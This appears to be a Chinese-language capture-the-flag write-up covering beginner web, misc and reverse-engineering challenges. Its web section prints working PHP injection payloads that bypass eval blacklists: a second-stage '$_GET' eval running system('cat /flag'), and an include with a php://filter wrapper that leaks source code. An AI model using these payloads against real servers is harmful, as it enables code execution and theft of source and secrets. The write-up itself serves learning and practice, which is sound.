# web
1. 签到题

尝试暴力破解失败
```php
<?php
$a=-1000;$b=-1000;$c=-1000;
for($a=-1000;$a<1000;$a++){
    for($b=-1000;$b<1000;$b++){
	    for($c=-1000;$c<1000;$c++){
            $a1=$a*$a*$a;
            $b1=$b*$b*$b;
	    $c1=$c*$c*$c;
	    $d=$a1+$b1+$c1;
            if($d=='114'){
		    echo $a.'<br>'.$b.'<br>'.$c;
		    break;
            }
        }
    }
}
```
目前思路为通过闭合尝试但是多次尝试失败无法闭合

最终完成，通过闭合可以完成


2. 命令注入

题目

```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```
payload
127.0.0.1/3.php?c=eval($_GET[a]);&a=system('cat /flag');

考点总结:二次逃逸

3. 命令注入

题目
```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```
依然可以通过二次逃逸进行绕过,加上文件包含考点利用伪协议读取源码

payload:127.0.0.1/3.php?c=include$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php

因为过滤了;所以使用?>来代替;这是一个注意点
# misc
1. 
拿到手是一个txt,打开没发现flag，查看十六进制文件发现是png文件，尝试更改后缀为png成功得到flag


2. 
下载下来发现6个txt文件，查看16进制文件发现是png格式，更改为png后发现flag,最后一个webp文件



3. 
下载后拿到一张图片，打开没发现什么，查看十六进制在最后发现flag



4. 
下载了个exe文件，十六进制看一下发现是个图片的base64编码，那就直接转图片，查看一下发现是个二维码,当然也可以直接放到浏览器里可以直接转出来图片



5. 
下载后发现是一张不完整的图片，查看图片尺寸，我们要把下半身还原，高度为256,首先计算256的十六进制,在linux里面可以直接输出
```
printf %x 256
```
得到结果100，然后我们十六进制搜索0100,修改为0200,保存，然后打开图片，发现完整flag,另外附上十六进制转十进制方法
```
printf %d 0x100
```
可以得到十进制结果256



# re
1. 
下载得到exe，使用ida64打开，发现flag



2. 
下载得到文件，ida64打开，发现flag字样，跟进



发现替换，将ascii为111的替换为48,也就是说将o替换成0



然后发现疑似flag字样



那很明显我把o替换成0flag就出来了

3. 
打开一眼就看到了替换


这里把ascii为105和114的替换为49，也就是说把i还有r替换为1,然后找到flag



替换一下即可得到flag

